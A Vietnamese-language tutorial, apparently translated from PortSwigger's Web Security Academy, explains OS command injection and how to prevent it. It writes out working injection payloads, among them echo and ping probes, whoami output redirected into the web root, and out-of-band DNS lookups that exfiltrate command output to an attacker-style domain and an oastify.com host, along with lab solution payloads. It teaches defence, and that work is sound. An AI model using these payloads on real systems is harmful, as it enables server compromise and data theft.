

# OS command injection
Trong phần này, chúng tôi giải thích OS command injection là gì và mô tả cách phát hiện và khai thác các lỗ hổng bảo mật. Chúng tôi cũng chỉ cho bạn một số lệnh và kỹ thuật hữu ích cho các hệ điều hành khác nhau, đồng thời mô tả cách ngăn chặn việc chèn lệnh vào hệ điều hành.\


## What is OS command injection?
OS command injection còn được gọi là tiêm shell. Nó cho phép kẻ tấn công thực thi các lệnh của hệ điều hành (OS) trên máy chủ đang chạy ứng dụng và thường xâm phạm hoàn toàn ứng dụng và dữ liệu của nó. Thông thường, kẻ tấn công có thể lợi dụng lỗ hổng OS command injection để xâm phạm các phần khác của cơ sở hạ tầng lưu trữ và khai thác các mối quan hệ tin cậy để chuyển cuộc tấn công sang các hệ thống khác trong tổ chức.
## Injecting OS commands
Trong ví dụ này, một ứng dụng mua sắm cho phép người dùng xem liệu một mặt hàng có còn hàng ở một cửa hàng cụ thể hay không. Thông tin này được truy cập thông qua một URL:\
`https://insecure-website.com/stockStatus?productID=381&storeID=29`\
Để cung cấp thông tin kho hàng, ứng dụng phải truy vấn các hệ thống cũ khác nhau. Vì lý do lịch sử, chức năng này được triển khai bằng cách gọi lệnh shell với ID sản phẩm và ID cửa hàng làm đối số:\
`stockreport.pl 381 29`\
Lệnh này xuất ra trạng thái tồn kho của mặt hàng được chỉ định và được trả về cho người dùng.\
Ứng dụng không thực hiện biện pháp phòng vệ nào trước việc tiêm lệnh của hệ điều hành, vì vậy kẻ tấn công có thể gửi thông tin đầu vào sau để thực thi lệnh tùy ý:\
`& echo aiwefwlguh &`\
Nếu đầu vào này được gửi trong tham số `productID`, lệnh được ứng dụng thực thi là:\
`stockreport.pl & echo aiwefwlguh & 29`\
Lệnh `echo` làm cho chuỗi được cung cấp bị lặp lại ở đầu ra. Đây là một cách hữu ích để kiểm tra một số kiểu chèn lệnh của hệ điều hành. Ký tự `&` là dấu phân cách lệnh shell. Trong ví dụ này, nó khiến ba lệnh riêng biệt được thực thi lần lượt. Kết quả trả về cho người dùng là:\
```
Error - productID was not provided
aiwefwlguh
29: command not found
```
Ba dòng đầu ra chứng minh rằng:
- Lệnh `stockreport.pl` ban đầu được thực thi mà không có đối số dự kiến ​​và do đó trả về thông báo lỗi.
- Lệnh `echo` được chèn đã được thực thi và chuỗi được cung cấp được lặp lại ở đầu ra.
- Đối số ban đầu `29` được thực thi dưới dạng lệnh và gây ra lỗi.

Việc đặt dấu phân cách lệnh bổ sung `&` sau lệnh được chèn rất hữu ích vì nó tách lệnh được chèn khỏi bất kỳ lệnh nào theo sau điểm chèn. Điều này làm giảm khả năng những gì xảy ra sau đó sẽ ngăn lệnh được chèn thực thi.

Ví dụ: https://portswigger.net/web-security/os-command-injection/lab-simple


## Useful commands
Sau khi bạn xác định lỗ hổng OS command injection, việc thực thi một số lệnh ban đầu để lấy thông tin về hệ thống là rất hữu ích. Dưới đây là tóm tắt một số lệnh hữu ích trên nền tảng Linux và Windows:
```
Purpose of command	    Linux           Windows
Name of current user	whoami	        whoami
Operating system	    uname -a	    ver
Network configuration	ifconfig	    ipconfig /all
Network connections	    netstat -an	    netstat -an
Running processes	    ps -ef	        tasklist
```
## Blind OS command injection vulnerabilities
Nhiều trường hợp OS command injection là những lỗ hổng blind. Điều này có nghĩa là ứng dụng không trả về kết quả đầu ra từ lệnh trong phản hồi HTTP của nó. Các lỗ hổng ẩn vẫn có thể bị khai thác nhưng cần có các kỹ thuật khác.\
Ví dụ: hãy tưởng tượng một trang web cho phép người dùng gửi phản hồi về trang web. Người dùng nhập địa chỉ email và tin nhắn phản hồi của họ. Sau đó, ứng dụng phía máy chủ sẽ tạo một email gửi đến quản trị viên trang web chứa phản hồi. Để thực hiện việc này, nó gọi tới chương trình `mail` với các chi tiết đã gửi:\
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`\
Đầu ra từ lệnh `mail` (nếu có) không được trả về trong phản hồi của ứng dụng, do đó việc sử dụng tải trọng `echo` sẽ không hoạt động. Trong tình huống này, bạn có thể sử dụng nhiều kỹ thuật khác để phát hiện và khai thác lỗ hổng.
### Detecting blind OS command injection using time delays
Bạn có thể sử dụng lệnh được chèn để kích hoạt độ trễ thời gian, cho phép bạn xác nhận rằng lệnh đã được thực thi dựa trên thời gian mà ứng dụng cần để phản hồi. Lệnh `ping` là một cách hay để thực hiện việc này vì cho phép bạn chỉ định số lượng gói ICMP cần gửi. Điều này cho phép bạn kiểm soát thời gian thực hiện lệnh:\
`& ping -c 10 127.0.0.1 &`\
Lệnh này khiến ứng dụng ping bộ điều hợp mạng loopback trong 10 giây.

Ví dụ: https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays

Payload: `a || ping -c 10 127.0.0.1 ||`\


### Exploiting blind OS command injection by redirecting output
Bạn có thể chuyển hướng đầu ra từ lệnh được chèn vào một tệp trong web root mà sau đó bạn có thể truy xuất bằng trình duyệt. Ví dụ: nếu ứng dụng phục vụ tài nguyên tĩnh từ vị trí hệ thống tệp `/var/www/static`, thì bạn có thể gửi thông tin đầu vào sau:\
`& whoami > /var/www/static/whoami.txt &`\
Ký tự `>` gửi đầu ra từ lệnh `whoami` tới tệp được chỉ định. Sau đó, bạn có thể sử dụng trình duyệt để tìm nạp `https://vulnerable-website.com/whoami.txt` nhằm truy xuất tệp và xem kết quả đầu ra từ lệnh được chèn.

Ví dụ: https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection


Payload: `x+||+whoami+>+/var/www/images/whoami.txt+||+`

### Exploiting blind OS command injection using out-of-band (OAST) techniques
Bạn có thể sử dụng lệnh được chèn để kích hoạt tương tác mạng ngoài băng tần với hệ thống mà bạn điều khiển bằng kỹ thuật OAST. Ví dụ:\
`& nslookup kgji2ohoyw.web-attacker.com &`\
Tải trọng này sử dụng lệnh `nslookup` để thực hiện tra cứu DNS cho miền được chỉ định. Kẻ tấn công có thể theo dõi xem việc tra cứu có diễn ra hay không, để xác nhận xem lệnh có được tiêm thành công hay không.

Ví dụ: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

Payload: `|| nslookup xmnbr1ob1ko4tazt34xutbktgkmba1yq.oastify.com ||`




Kênh ngoài băng cung cấp một cách dễ dàng để lọc đầu ra từ các lệnh được chèn:\
``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``\
Điều này gây ra việc tra cứu DNS tới miền của kẻ tấn công có chứa kết quả của lệnh `whoami`:\
`wwwuser.kgji2ohoyw.web-attacker.com`\

Ví dụ: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration

Payload: ``|| nslookup `whoami`.xmnbr1ob1ko4tazt34xutbktgkmba1yq.oastify.com ||``


## Ways of injecting OS commands
Bạn có thể sử dụng một số siêu ký tự shell để thực hiện các cuộc tấn công tiêm lệnh vào hệ điều hành.\
Một số ký tự có chức năng phân tách lệnh, cho phép các lệnh được xâu chuỗi lại với nhau. Các trình phân tách lệnh sau hoạt động trên cả hệ thống dựa trên Windows và Unix:
```
&
&&
|
||
```
Các dấu tách lệnh sau chỉ hoạt động trên các hệ thống dựa trên Unix:
```
;
Newline (0x0a or \n)
```
Trên các hệ thống dựa trên Unix, bạn cũng có thể sử dụng backticks hoặc ký tự đô la để thực hiện thực thi nội tuyến lệnh được chèn trong lệnh gốc:
```
`injected command `
$(injected command )
```
Các siêu ký tự shell khác nhau có các hành vi khác nhau một cách tinh tế và có thể thay đổi nếu chúng hoạt động trong một số tình huống nhất định. Điều này có thể ảnh hưởng đến việc chúng có cho phép truy xuất đầu ra lệnh trong băng tần hay chỉ hữu ích cho việc khai thác mù.\
Đôi khi, dữ liệu đầu vào mà bạn điều khiển xuất hiện trong dấu ngoặc kép trong lệnh gốc. Trong trường hợp này, bạn cần chấm dứt ngữ cảnh được trích dẫn (sử dụng `"` hoặc `'`) trước khi sử dụng siêu ký tự shell phù hợp để đưa vào lệnh mới.

## How to prevent OS command injection attacks
Cách hiệu quả nhất để ngăn chặn các lỗ hổng chèn lệnh của hệ điều hành là `không bao giờ gọi các lệnh của hệ điều hành từ code lớp ứng dụng`. Trong hầu hết các trường hợp, có nhiều cách khác nhau để triển khai chức năng được yêu cầu bằng cách sử dụng API nền tảng an toàn hơn.\
Nếu bạn phải gọi các lệnh của hệ điều hành bằng đầu vào do người dùng cung cấp thì bạn phải thực hiện xác thực đầu vào mạnh mẽ. Một số ví dụ về xác nhận hiệu quả bao gồm:
- Xác thực dựa trên **danh sách trắng** các giá trị được phép.
- Xác thực rằng đầu vào là một số.
- Xác thực rằng đầu vào chỉ chứa các ký tự chữ và số, không có cú pháp hoặc khoảng trắng nào khác.

Đừng bao giờ cố gắng vệ sinh đầu vào bằng cách thoát khỏi ký tự shell. Trong thực tế, điều này rất dễ xảy ra lỗi và dễ bị kẻ tấn công lành nghề vượt qua.


